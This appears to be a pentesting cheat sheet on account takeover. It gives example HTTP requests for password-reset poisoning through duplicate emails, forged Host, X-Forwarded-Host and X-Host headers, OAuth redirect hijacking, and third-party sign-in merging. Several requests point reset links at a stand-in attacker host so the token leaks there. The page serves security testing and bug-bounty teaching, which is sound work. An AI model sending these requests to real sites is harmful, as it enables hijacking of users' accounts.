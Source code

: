 Account takeover allows you to take full control on the user's account.

# Password Recovery

Password recovery functionality is often implemented by sending a one-time link to email. 

## Several Email Addresses

Sometimes you can takeover an account by specifying several email addresses in the password recovery request. For example, if an application is vulnerable to such an attack, on a similar request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json
Content-Length: 57

{"email": ["victim@website.com", "attacker@website.com"]}
```

an application will send the same recovery link to two email addresses.

## Host Header Poisoning

Applications can use the `Host` header value for generating a password recovery link. If the application is vulnerable to `Host` header poisoning, you could affect the link and specify its own domain name. As a result, if the victim follows the link from the email, the recovery token will leak to the you.

There are several ways to implement `Host` header poisoning.

### X-Forwarded-Host Header

The [X-Forwarded-Host](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-Host) header is a header for identifying the original host requested by the client in the `Host` request header. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Account Takeover Through Password Reset Poisoning](https://medium.com/@vbharad/account-takeover-through-password-reset-poisoning-72989a8bb8ea)

### X-Host Header

`X-Host`, like `X-Forwarded-Host`, sometimes is used to identifying the original host. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
X-Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

### Several Host Header

You can try specifying several `Host` headers. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

### Host Header Replacement

You can try replace the `Host` header on your domain. Examples of vulnerable requests:

```http
POST /users/password HTTP/1.1
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

```http
POST /users/password HTTP/1.1
Host: attacker-website.com/vulnerable-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Password Reset link hijacking via Host Header Poisoning](https://hackerone.com/reports/226659)

# OAuth

## Host Header Poisoning

Poisoning the `Host` header can lead to account takeover not only during password recovery, but also OAuth authentication. Sometimes you can affect `redirect_uri` by poisoning the `Host` header. As a result, when the victim exchanges the authorization code for access token, he / she will send a request with this token to your domain. Example of vulnerable request:

```http
GET /twitter/login HTTP/1.1
Host: attacker-website.com/vulnerable-website.com
```

References:

- [Write up: Account Takeover in Periscope TV](https://hackerone.com/reports/317476) 

# Third-party Sign-in or Sign-up

Applications that implement third party sign-in or sign-up often identify users based on the attached email address that the third party application sends. In such cases, you can try sign-in or sign-up with two different third-party applications that are linked to the same email address. Sometimes these two accounts can be joined and you will have access to the victim's account by sign-in or sign-up with your third-party application account.

For example, suppose a victim sign-in or sign-up to `vulnerable-website.com` with `third-party-app1.com`, which is linked to `victim@website.com`. To exploit this, you can try the following:
1. Create an account at `third-party-app2.com` and enter the `victim@website.com` email address (ideal if email confirmation is not required),
2. Try sign-in or sign-up at `vulnerable-website.com` through `third-party-app2.com`,
3. If the application is vulnerable, then you will have access to the victim's account.

References:

- [Write up: account takeover https://teamplay.qiwi.com](https://hackerone.com/reports/439207)

# Adding or Changing Email Addresses

If the operations of adding a new email address or changing an existing one do not require password confirmation, session hijacking, XSS or CSRF can lead to account takeover.
